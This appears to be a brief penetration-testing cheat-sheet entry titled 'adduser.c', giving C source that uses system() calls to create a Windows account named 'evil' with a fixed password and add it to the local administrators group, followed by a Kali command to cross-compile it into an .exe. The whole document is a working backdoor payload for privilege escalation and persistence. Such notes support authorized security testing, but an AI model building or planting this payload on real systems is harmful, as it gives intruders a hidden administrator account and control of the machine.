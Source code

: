 # adduser.c code

## Code

```text
#include <stdlib.h>
int main ()
{
 int i;
 
 i = system ("net user evil Ev!lpass /add");
 i = system ("net localgroup administrators evil /add");
 return 0;
}
```

## Compile the code

```text
kali@kali:~$i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

